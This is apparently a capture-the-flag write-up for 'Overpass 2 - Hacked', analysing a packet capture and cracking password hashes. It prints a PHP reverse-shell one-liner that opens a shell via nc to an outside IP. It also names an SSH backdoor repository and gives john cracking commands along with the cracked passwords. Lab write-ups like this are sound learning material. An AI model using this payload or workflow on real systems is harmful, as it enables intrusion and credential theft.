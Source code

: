 # Overpass 2 - Hacked

## Forensics

**Related files**
* `overpass2.pcapng` - Wireshark packet file
* `upload.php` - Uploaded php script
* `shadow` - Shadow file
* `shadow_hashes` - List of hashes from `shadow` file
* `fasttrack.txt` - Wordlist for hash cracking

Analyzing the `.pcapng` file we can see that the `/development/` page is what was used to upload a reverse shell. The file itself contained the following php script: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>` (located in `upload.php`). Once in the password `whenevernoteartinstant` was used for privelage escalation. To establish persistence the attacker used [this](https://github.com/NinjaJc01/ssh-backdoor) repository. From the passwords in the shadow file `4` of them were able to be cracked using the `fasttrack.txt` wordlist using `john --wordlist=fasttrack.txt shadow_hashes` as the command:

```
secret12
abcd123
1qaz2wsx
secuirty3
```

## Research

**Related files**
* `hash` - File containing hash and salt in format: hash$salt

The default hash and salt can be found by looking at the Github repository in the `main.go` file. The default hash is `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` and the hardcoded salt is `1c362db832f3f864c8c2fe05f2002a05`. The hash that the attacker specifically used is `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. Using `john -format='dynamic=sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt hash` The `hash$salt` combination string was able to be decrypted to be `november16`.